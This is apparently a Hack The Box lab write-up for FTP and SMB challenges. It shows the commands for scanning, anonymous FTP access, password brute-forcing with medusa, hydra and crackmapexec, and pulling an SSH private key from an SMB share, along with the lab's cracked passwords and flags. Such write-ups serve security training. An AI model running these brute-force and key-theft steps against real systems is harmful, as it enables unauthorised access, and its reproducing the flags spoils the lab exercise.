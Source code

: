 # HTB-Attacking_Common_Services
## Table of Contents
1. [FTP](#ftp)
2. [SMB](#smb)

### FTP
#### Tools
1. medusa
2. hydra
#### Challenges
1. What port is the FTP service running on?

    We can solve this by using nmap to find ftp port.

    ```bash
    sudo nmap -sV -sC 10.129.55.8 -v
    ```
    ![alt text](Assets/FTP1.png)

    The answer is 2121.

2. What username is available for the FTP server?

    Based on the nmap output, the anonymous login is allowed. So i tried to ftp anonymously.

    ```bash
    ftp 10.129.55.8 2121
    ```
    In there, we can find users.list and passwords.list. After download using `get <file name>`, we can bruteforce by using medusa.
    
    ```bash
    medusa -U users.list -P passwords.list -h 10.129.55.8 -n 2121 -M ftp
    ```
    Another way for the faster result is using `hydra`.

    ```bash
    sudo hydra -L users.list -P passwords.list -t 32 -s 2121 ftp://10.129.55.8
    ```
    Then we will get `robin:7iz4rnckjsduza7` credential. The answer is `robin`.

3. Using the credentials obtained earlier, retrieve the flag.txt file. Submit the contents as your answer.

    By using the credential that we found, we can get the flag. The answer is `HTB{ATT4CK1NG_F7P_53RV1C3}`.

### SMB
#### Tools
1. impacket-psexec
2. CrackMapExec
3. enum4linux-ng
#### Challenges
1. What is the name of the shared folder with READ permissions?

    We can solve this by using `smbmap` with `-H` flag.

    ```bash
    smbmap -H 10.129.55.8
    ```
    The answer is `GGJ`.

2. What is the password for the username "jason"?

    We can bruteforce by using `crackmapexec` to get the password.

    ```bash
    crackmapexec smb 10.129.55.8 -u "jason" -p pws.list --local-auth
    ```
    The answer is `34c8zuNBo91!@28Bszh`.

3. Login as the user "jason" via SSH and find the flag.txt file. Submit the contents as your answer.

    To solve this, we need `id_rsa` from GGJ shares. We can download it by using jason credential.

    ```bash
    smbmap -H 10.129.55.8 -u 'jason' -p '34c8zuNBo91!@28Bszh' --download "GGJ\id_rsa"
    ```
    Ater that, change id_rsa permission (600). Then we can ssh to there.

    ```bash
    ssh -o KexAlgorithms=diffie-hellman-group14-sha256 -o Ciphers=aes256-ctr -i id_rsa jason@10.129.203.6 -v
    ```
    The answer is `HTB{SMB_4TT4CKS_2349872359}`.